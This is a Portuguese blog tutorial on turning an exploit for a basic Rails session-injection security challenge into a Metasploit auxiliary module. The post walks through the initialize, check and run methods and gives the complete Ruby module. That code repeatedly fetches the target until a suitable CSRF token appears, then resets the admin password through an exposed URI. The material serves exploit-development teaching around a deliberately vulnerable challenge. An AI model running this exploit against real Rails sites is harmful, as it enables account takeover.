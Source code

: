 ```yaml
---
layout: post
title: "Rails session injection challenge: criando um módulo para o Metasploit"
date: 2015-03-31 15:49:07 -0300
comments: true
categories: [Metasploit]
author: Joridos
---
```


```
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        http://metasploit.pro
```

Recentemente o [@akitaonrails](https://twitter.com/akitaonrails) fez um [post](http://www.akitaonrails.com/2014/08/27/small-bite-brincando-com-metasploit) sobre um [ desafio básico de segurança](https://twitter.com/joernchen/status/504304803045208064) do [@joernchen](https://twitter.com/joernchen).

O desafio é realmente básico, mas aproveitei a oportunidade para mostrar como desenvolver um módulo para o Metasploit.

Vamos criar um módulo auxiliar, para isso crie o arquivo `metasploit-framework/modules/auxiliary/admin/http/rails_csrf_token_bypass.rb` contendo:

``` Ruby
require 'msf/core'
require 'mechanize'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient

  def initialize
  end

  def check
  end

  def run
  end
end
```
Importamos primeiramente o core do Metasploit(`require 'msf/core'`) e a gem [mechanize](https://rubygems.org/gems/mechanize)(`require 'mechanize'`), incluimos também o `Msf::Exploit::Remote::HttpClient` que nos traz algumas coisas úteis como validação de parâmetros e muito mais, após criamos 3 métodos:

* initialize : Adicionamos informações do módulo que será usado pelo Metasploit.
* check : Faremos a validação se o host está vulneravel.
* run : Código que explorará a falha.

##initialize

Nesse método adicionamos informações como nome, descrição, autor e licença no `super()`, e adicionamos algumas opções para usarmos no exploit com `register_options`.

``` Ruby
#include......

def initialize
  super(
    'Name'           => 'Rails CSRF Bypass',
    'Version'        => '$Revision: 1 $',
    'Description'    => 'Session Injection Exploit for Rails App',
    'Author'        =>
    [
      'akitaonrails', #original discovery and disclosure
      'joridos' #metasploit module
    ],
    'License'        => MSF_LICENSE
  )
  register_options(
    [
      OptString.new('TARGETURI', [ true,  'The request URI', '/reset/_csrf_token']),
      OptString.new('PASSWORD', [true, 'The password to set']),
    ], self.class)
end

#def check.....
```

##check

Aqui nós verificamos se o alvo está online e vulnerável, então exibimos `Exploit::CheckCode::Detected[0]` e retornamos `Exploit::CheckCode::Vulnerable`, se não estiver vulnerável retornamos `return Exploit::CheckCode::Safe`.

``` Ruby
def check
  agent = Mechanize.new { |agent|
    agent.user_agent_alias = 'Mac Safari'
  }
  if page = agent.get("http://#{datastore['RHOST']}/")
    print_status Exploit::CheckCode::Detected[0]
  else
    print_error "Host not found"
    return Exploit::CheckCode::Unsupported
  end
  if page.at('meta[@name="csrf-token"]')[:content]
    print_status('Found csrf-token, exploitable')
    return Exploit::CheckCode::Vulnerable
  else
    return Exploit::CheckCode::Safe
  end
end
```

Tipos de retorno disponível:

``` Ruby
CheckCode::Safe # não explorável
CheckCode::Detected # serviço detectado
CheckCode::Appears # versão vulnerável
CheckCode::Vulnerable # confirmado a vulnerabilidade
CheckCode::Unsupported # não suportado para este módulo.
```

##run

Nesse método temos o código do exploit feito pelo [@akitaonrails](https://twitter.com/akitaonrails), modificado um pouco para o módulo.

``` Ruby
def run
  $hacked = false
  if datastore['PASSWORD'].length < 7
    print_error("use password from 7 characters and no special characters")
    return Exploit::CheckCode::Unsupported
  end
  begin
    agent = Mechanize.new { |agent|
      agent.user_agent_alias = 'Mac Safari'
    }
    page = agent.get("http://#{datastore['RHOST']}/")
    token = page.at('meta[@name="csrf-token"]')[:content]
    print_status "#{token}"
    if token =~ /^1\w+/
      doc = agent.get("http://#{datastore['RHOST']}#{datastore['TARGETURI']}?password=#{datastore['PASSWORD']}")
      $hacked = doc.content
      print_good doc.content
    end
  end  while $hacked != "password changed ;)"
    print_good "user: admin"
    print_good "pass: #{datastore['PASSWORD']}"
end
```

Nosso exploit completo fica:

``` Ruby
require 'msf/core'
require 'mechanize'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient

  def initialize
    super(
      'Name'           => 'Rails CSRF Bypass',
      'Version'        => '$Revision: 1 $',
      'Description'    => 'Session Injection Exploit for Rails App',
      'Author'        =>
      [
        'akitaonrails', #original discovery and disclosure
        'joridos' #metasploit module
      ],
      'License'        => MSF_LICENSE
    )
    register_options(
      [
        OptString.new('TARGETURI', [ true,  'The request URI', '/reset/_csrf_token']),
        OptString.new('PASSWORD', [true, 'The password to set']),
      ], self.class)
  end

  def check
    agent = Mechanize.new { |agent|
      agent.user_agent_alias = 'Mac Safari'
    }
    if page = agent.get("http://#{datastore['RHOST']}/")
      print_status Exploit::CheckCode::Detected[0]
    else
      print_error "Host not found"
      return Exploit::CheckCode::Unsupported
    end
    if page.at('meta[@name="csrf-token"]')[:content]
      print_status('Found csrf-token, exploitable')
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
  end

  def run
    $hacked = false
    if datastore['PASSWORD'].length < 7
      print_error("use password from 7 characters and no special characters")
      return Exploit::CheckCode::Unsupported
    end
    begin
      agent = Mechanize.new { |agent|
        agent.user_agent_alias = 'Mac Safari'
      }
      page = agent.get("http://#{datastore['RHOST']}/")
      token = page.at('meta[@name="csrf-token"]')[:content]
      print_status "#{token}"
      if token =~ /^1\w+/
        doc = agent.get("http://#{datastore['RHOST']}#{datastore['TARGETURI']}?password=#{datastore['PASSWORD']}")
        $hacked = doc.content
        print_good doc.content
      end
    end  while $hacked != "password changed ;)"
      print_good "user: admin"
      print_good "pass: #{datastore['PASSWORD']}"
  end
end
```

Adicione o `mechanize` no Gemfile do metasploit:

``` Ruby
group :development, :test do
  # Other gems.........
  # Mechanize for exploit rails_csrf_token_bypass
  gem 'mechanize'
end
```

Agora basta executar:

``` sh
$ bundle install
```

[GitHub source code](https://github.com/joridos/Rails-session-injection-challenge)

E usar:
#![Metasploit](/images/rails_csrf01.png)
#![Metasploit](/images/rails_csrf02.png)
#![Metasploit](/images/rails_csrf03.png)
#![Metasploit](/images/rails_csrf04.png)
#![Metasploit](/images/rails_csrf05.png)
#![Metasploit](/images/rails_csrf06.png)